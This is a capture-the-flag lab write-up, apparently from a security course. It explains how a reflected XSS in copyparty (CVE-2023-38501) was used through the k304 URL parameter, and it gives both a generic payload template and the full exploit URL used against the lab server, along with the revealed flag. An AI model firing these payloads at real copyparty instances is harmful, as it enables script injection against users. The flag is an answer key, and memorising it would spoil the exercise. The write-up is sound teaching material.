

# XSS: CTF #7

## Tasks

- Why is the secret flag in `flag.txt` not directly accessible?

  The `flag.txt` file shown in the UI does not correspond to the actual file with the flag inside.

- There is an known vulnerability that can help get the flag?

  Yes: CVE-2023-38501 states that there is a XSS vulnerability in copyparty via the URL-parameter `?k304=...` .

- What is the type of XSS that allow to get the flag?

  Reflected XSS, since the attacker has arbitrary Javascript execution in a browser.

## Other observations

- In the `README.md` of the copyparty repository, there is a section about security that states:

  > if you allow anonymous uploads or otherwise don't trust the contents of a volume, you can prevent XSS with volflag `nohtml`

- More information about the vulnerability can be found in <https://nvd.nist.gov/vuln/detail/CVE-2023-38501>;
- There is an exploit for said vulnerability: <https://github.com/advisories/GHSA-f54q-j679-p9hh>  
  Navigating to the following URL allows for Javascript code execution:

  ```
  <server domain>/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3D<javascript code>%3E
  ```

## Vulnerability exploitation

Navigating to this URL:

```
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dwindow.open(%22flag.txt%22).print()%3E
```

inserts the following `` html tag:

```

```

This will send an HTTP GET request always fail to load and execute`window.open("flag.txt").print()`, which will generate a document print prompt with the flag inside: `flag{youGotMeReallyGood}` .


